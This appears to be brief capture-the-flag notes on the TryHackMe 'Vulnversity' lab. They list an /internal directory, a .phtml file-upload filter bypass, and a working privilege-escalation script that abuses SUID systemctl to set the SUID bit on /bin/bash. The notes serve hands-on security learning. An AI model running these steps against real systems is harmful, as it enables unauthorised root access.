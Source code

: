 Try Hack Me - Vulnversity 

# Interesting enum

1. Interesting directory: /internal

2. Exploit

```
File upload vulnerabilities bypass with .phtml
```

3. Privilege escalation

```
SUID systemctl

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash" # SETUID binary
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
